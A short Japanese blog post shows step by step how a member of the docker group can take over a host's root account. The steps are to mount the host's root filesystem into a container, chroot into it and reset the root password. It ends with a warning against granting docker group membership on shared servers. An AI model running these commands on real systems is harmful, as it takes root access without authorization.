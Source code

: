 ```yaml
---
title: dockerグループの権限でホストのrootアカウントを奪取する
pubtime: 2016-06-14T10:27+0900
tags: [docker, root, コンテナ, 仮想化, chroot, CoreOS]
description: dockerを使うときに使うdockerグループの権限があれば、そのホストのrootアカウントを簡単に奪取出来るそうです。実際に試してみました。
---
```


[docker](https://www.docker.com/)というコンテナ型の仮想化ソフトがありますよね。
セキュリティが宜しくないとかで、置き換えを目指す[rkt](https://coreos.com/rkt/)という別のソフトウェアが出て来ていたりします。

調べてみたところ、dockerグループに属した一般ユーザーがrootの権限を使えるらしいです。ヤバそうです。試してみました。

ひとまず、ubuntuか何かのイメージを落してきます。使うイメージはなんでも良いと思います。
ちなみにホストマシンには[CoreOS](https://coreos.com/)を使ってみました。
```
ホストマシン $ docker pull ubuntu
```

出来たら、起動します。
```
ホストマシン $ docker run -itv /:/mnt ubuntu /bin/bash
```
ホストマシンのルートディレクトリを`/mnt`にマウントしている、というのがポイントです。
あとのオプションは適当に調べてください。

次に、ホストマシンのルートディレクトリにchrootを行ないます。
```
コンテナ # chroot /mnt /bin/bash
```
これでホストマシンのrootに（擬似的に）なれました。

rootのパスワードを変えます。
```
chrootしたあと # passwd
```
これが出来たら、あとはexit2回でマシンを閉じます。

設定したパスワードでログイン出来るか試してみましょう。
```
ホストマシン $ su -
Password:
```
普通にrootになれると思います。

ね、簡単でしょう？
共有サーバーで運用する場合、dockerグループも迂闊に渡さないようにしたほうが良さそうです…。

